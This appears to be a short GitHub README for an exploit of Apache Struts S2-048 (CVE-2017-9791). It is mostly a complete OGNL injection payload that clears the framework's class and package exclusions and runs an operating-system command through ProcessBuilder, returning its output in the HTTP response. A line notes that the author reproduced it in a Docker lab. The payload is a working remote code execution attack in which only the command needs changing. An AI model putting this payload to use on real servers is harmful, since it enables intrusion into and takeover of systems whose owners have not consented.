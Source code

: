 # s2-048
Exp for s2-048, CVE-2017-9791.
'''
  ______     _______     ____   ___  _ _____     ___ _____ ___  _ 
 / ___\ \   / / ____|   |___ \ / _ \/ |___  |   / _ \___  / _ \/ |
| |    \ \ / /|  _| _____ __) | | | | |  / /___| (_) | / / (_) | |
| |___  \ V / | |__|_____/ __/| |_| | | / /_____\__, |/ / \__, | |
 \____|  \_/  |_____|   |_____|\___/|_|/_/        /_//_/    /_/|_|

'''

poc:
```
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
This is a  poc from https://github.com/Loneyers/vuldocker/tree/master/struts2/s2-048, I build a docker and successfully get the same result, but there is still some errors in my python script. 


